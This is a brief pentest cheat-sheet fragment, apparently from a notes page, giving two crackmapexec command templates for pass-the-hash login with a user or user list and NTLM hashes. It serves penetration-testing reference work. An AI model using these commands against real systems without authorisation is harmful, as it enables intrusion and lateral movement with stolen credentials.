 # $ crackmapexec - passthehash
```bash
$ crackmapexec <protocol> <IP> -u <user> -H <ntlm_hash>
$ crackmapexec <protocol> <IP> -u <users_file> -H <ntlm_hashes_file>
```